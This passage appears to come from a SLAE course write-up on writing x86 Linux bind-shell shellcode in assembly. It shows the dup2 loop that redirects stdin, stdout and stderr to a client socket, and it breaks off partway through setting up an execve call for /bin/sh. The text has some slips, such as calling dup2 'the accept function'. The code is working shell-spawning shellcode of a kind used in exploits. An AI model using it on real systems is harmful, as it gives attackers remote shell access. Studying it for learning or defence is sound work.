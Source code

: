 ## Redirect the file descriptors using dup2

Now, the socket is ready to accept inbound connection request.
I will use the **SYS_DUP2** with the value of 0x3F in HEX to accomplish this task.

```c
int dup2(int oldfd, int newfd);
```
The accept function requires 2 arguments:
1. oldfd - the old file descriptor value
2. newfd - the new file descriptor value

We will redirect the file descriptors stdin (0), stdout (1) and stderr(2) to the client socketfd,
Intotal we will have to use the dup2 function 3 times, hence using a loop will come in handy.

All the following comes down to the following code :

```c
; Redirect the file descriptors using dup2

       xchg ebx, eax   ; Moving the file descriptor to ebx
       xor ecx, ecx    ; clearing ecx before using the loop
       mov cl, 0x2     ; setting the loop counter

looper:
       mov al, 0x3F    ; inserting the hex SYS_DUP2 syscall
       int 0x80        ; syscall
       dec ecx         ; the argument for file descriptor(2-stderr,1-stdout,0-stdin)
       jns looper
```

## Execute /bin/sh with execve
Now, for the final step, we want to execute /bin/sh
I will use the **SYS_EXECVE** Syscall with the value of 0xB

```c
int execve(const char *pathname, char *const argv[], char *const envp[]);
```
The execve function requires 3 arguments:
1. pathname - a pointer to the filename we want to execute.
2. argv - is an array of pointers to strings passed to the new program as its command-line arguments.
3. envp - envp is an array of pointers to strings.

I will take notes from the execve-stack.nasm code presented on the SLAE course as the corrensponding code.

All the following comes down to the following code :

```c
; Execute /bin/sh with execve

       xor eax, eax
       push eax

       ; PUSH //bin/sh (8 bytes)

       push 0x68732f2f
       push 0x6e69622f

       mov ebx, esp

       push eax
       mov edx, esp

       push ebx
       mov ecx, esp
```